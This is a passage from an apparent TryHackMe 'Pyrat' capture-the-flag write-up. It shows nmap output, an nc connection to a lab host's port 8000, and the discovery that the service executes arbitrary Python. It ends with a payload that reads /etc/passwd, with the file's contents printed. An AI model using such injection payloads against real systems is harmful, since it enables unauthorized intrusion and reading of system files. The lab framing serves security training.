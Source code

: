 ```terminal
SF:>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20cannot\x
SF:20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\x20i
SF:s\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x20no
SF:t\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20string\x2
SF:0cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"sourc
SF:e\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Help,1B
SF:,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"invalid\x2
SF:0syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid\x20s
SF:yntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x20code
SF:\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,"sou
SF:rce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(JavaR
SF:MI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n
SF:")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20b
SF:ytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x20nu
SF:ll\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 302.97 seconds
```

### HTTP
we can see that an HTTP erver is running on port 8000, after attempting to connect to it using a browser we get this message

![website](/assets/img/TryHackMe/Pyrat/1.webp)

this must refers to sockets, using nc to connect to it. 

```terminal
nc 10.10.100.37 8000
GET /
invalid syntax (<string>, line 1)
```

this error is known to be a python error, so let's try to send some python code and see what do we get as output
```terminal
print("hello")
hello
```
this means we can run python commands, which could lead to a RCE and getting a reverse shell

### Exploit
let's try to get a reverse shell 
so after trying different scripts this one worked
```terminal
print(__import__('os').popen('cat /etc/passwd').read())
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```